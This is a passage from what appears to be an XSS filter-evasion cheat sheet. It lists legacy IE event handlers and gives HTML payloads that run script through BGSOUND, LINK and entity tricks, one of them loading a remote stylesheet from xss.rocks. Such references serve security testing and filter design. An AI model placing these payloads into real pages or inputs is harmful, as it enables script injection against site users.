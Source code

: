 98. `onSyncRestored()` (user interrupts the element's ability to play its media as defined by the timeline to fire)
99. `onSubmit()` (requires attacker or user submits a form)
100. `onTimeError()` (user or attacker sets a time property, such as dur, to an invalid value)
101. `onTrackChange()` (user or attacker changes track in a playList)
102. `onUndo()` (user went backward in undo transaction history)
103. `onUnload()` (as the user clicks any link or presses the back button or attacker forces a click)
104. `onURLFlip()` (this event fires when an Advanced Streaming Format (ASF) file, played by a HTML+TIME (Timed Interactive Multimedia Extensions) media tag, processes script commands embedded in the ASF file)
105. `seekSegmentTime()` (this is a method that locates the specified point on the element's segment time line and begins playing from that point. The segment consists of one repetition of the time line including reverse play using the AUTOREVERSE attribute.)

## BGSOUND

```html
<bgsound SRC="javascript:alert('XSS');"></bgsound>
```

## & JavaScript includes

```html
<br SIZE="&{alert('XSS')}" />
```

## STYLE sheet

```html
<link rel="stylesheet" href="javascript:alert('XSS');" />
```

## Remote style sheet

Using something as simple as a remote style sheet you can include your XSS as the style parameter can be redefined using an embedded expression. This only works in IE and Netscape 8.1+ in IE rendering engine mode. Notice that there is nothing on the page to show that there is included JavaScript. Note: With all of these remote style sheet examples they use the body tag, so it won't work unless there is some content on the page other than the vector itself, so you'll need to add a single letter to the page to make it work if it's an otherwise blank page:

```html
<link rel="stylesheet" href="http://xss.rocks/xss.css" />
```

## Remote style sheet part 2

This works the same as above, but uses a `<STYLE>` tag instead of a `<LINK>` tag). A slight variation on this vector was used
to hack Google Desktop. As a side note, you can remove the end `</STYLE>` tag if there is HTML immediately after the vector to close it. This is useful if you cannot have either an equals sign or a slash in your cross site scripting attack, which has come up at least once in the real world:
